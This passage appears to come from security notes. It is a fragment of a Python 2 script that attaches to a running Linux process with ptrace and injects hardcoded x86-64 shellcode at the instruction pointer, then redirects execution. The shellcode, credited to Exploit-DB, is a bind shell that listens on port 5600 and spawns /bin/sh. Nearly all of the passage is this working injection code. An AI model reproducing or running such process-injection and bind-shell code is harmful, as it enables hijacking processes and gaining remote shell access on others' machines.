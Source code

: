         # Retrieve the value stored in registers
        libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))
        
        print("Instruction Pointer: " + hex(registers.rip))
        
        print("Injecting Shellcode at: " + hex(registers.rip))
        
        # Shell code copied from exploit db.
        shellcode="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"
        
        # Inject the shellcode into the running process byte by byte.
        for i in xrange(0,len(shellcode),4):
         
          # Convert the byte to little endian.
          shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
          shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
          shellcode_byte=int(shellcode_byte_little_endian,16)
         
          # Inject the byte.
          libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)
        
        print("Shellcode Injected!!")
        
        # Modify the instuction pointer
        registers.rip=registers.rip+2
        
        # Set the registers
        libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))
        
        print("Final Instruction Pointer: " + hex(registers.rip))
        
        # Detach from the process.
        libc.ptrace(PTRACE_DETACH, pid, None, None)
        ```

        



## php脚本
